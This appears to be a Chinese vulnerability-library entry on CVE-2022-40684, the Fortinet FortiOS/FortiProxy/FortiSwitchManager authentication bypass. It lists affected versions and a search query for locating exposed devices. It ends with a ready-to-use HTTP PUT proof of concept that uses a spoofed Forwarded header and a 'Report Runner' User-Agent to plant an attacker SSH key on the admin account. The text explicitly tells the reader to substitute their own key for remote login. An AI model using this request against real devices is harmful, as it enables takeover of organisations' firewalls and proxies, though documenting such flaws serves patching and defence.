 # Fortinet FortiOS admin 远程命令执行漏洞 CVE-2022-40684

## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

<a-checkbox checked>FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</a-checkbox></br>

<a-checkbox checked>FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</a-checkbox></br>

<a-checkbox checked>FortiSwitchManager <= 7.2.0、7.0.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="FortiProxy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1666071814971-81c710e9-88e2-4d38-9a74-9562d4ab7f51-20221018134817098.png)

验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```java
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1666071940784-a4fb7239-bc4e-4a56-9bd2-1a3447dc40cf-20221018134812305.png)